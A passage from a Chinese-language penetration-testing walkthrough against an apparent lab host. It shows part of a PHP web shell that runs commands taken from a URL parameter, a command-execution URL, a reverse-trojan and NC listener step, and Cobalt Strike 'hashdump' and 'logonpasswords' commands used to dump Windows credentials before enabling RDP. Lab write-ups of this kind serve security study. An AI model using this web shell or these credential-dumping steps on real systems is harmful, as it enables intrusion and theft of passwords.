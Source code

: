 ```
out'?>">I m Out!</a></li>    <?php    }    ?></ul></div>/////////by:Anlfi//////////<?php//-------------------------------- Check what he wants -------------------------------------------// Shellif(isset($\_GET\['shell'\])){    if(!isset($\_GET\['cmd'\]) || $\_GET\['cmd'\] == '')    {        $result = "";        }    else    {        $result=exec\_all($\_GET\['cmd'\]);    }    ?>    <textarea cols="100" rows="20"><?php echo $result;?></textarea>    <form action="<?php echo $self;?>" method="GET">    <!-- For Shell -->    <input  />    <!-- For CMD -->    <input Run!" type="submit" />    </form>    <?php    }}?>

```

在菜刀上连接发送请求；在浏览器上执行命令获取 shell

```
http://192.168.28.128/email/2009/2.php?shell=&cmd=id&submit=Run!

```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFf4mNek6mad00vXlibRZI8sf8x1AluWnDuyUAWRsxZictYvYyNRtW0ichWA/640?wx_fmt=png)  

使用了 set 命令去查看一下环境变量内容

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfDDaS9zfYYsExlSwIyQ7WvkvJyGb5hpB4VQNTE4NWkNlGIZFbznrriaQ/640?wx_fmt=png)

还有可以上传反弹木马，NC 进行监听——执行 calmnexx.exe 文件

远程控制

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfHPibZLSEMtLCoOAyymhep4EJAMpVRbFqlibiat7HSmTAuMSJVhdiaq5O1A/640?wx_fmt=png)

使用 CS 进行连接对其进行操控

至此，这里没有域环境所以也没有进行 Kerberos 认证   操作

转储 Hash

beacon> hashdump

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfCwKRibUu4TqzFLVhdV6hdWVD7wH9lGWj3ia9YGwiaJwwDHyg04icxKic2XQ/640?wx_fmt=png)

获取 Windows server 2008 R2 的账户密码

beacon> logonpasswords

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfRia2AkibBzyFUJ8dv8mgbKpuIcsaIov3V4laibmnHBeQ9bGNPg8jWuAeQ/640?wx_fmt=png)

开启 3389 远程访问

接下来进行 cmd 下执行；mstsc 远程登录发现端口不开

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfYHXEyIwR2fukMia4ibnVeB8htUxWFhxhSzC5Ymic4LI7vHwdAjLjaJzmg/640?wx_fmt=png)

可以进行扫描下端口，查看端口是否开放

来判断是否存在开放的端口进行攻击和利用

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfoUxhdibc9Kb4T4ltcqguibtH64Ph0Ttol9gEUpB31Ooeeo0s8iaiaV2wsw/640?wx_fmt=png)
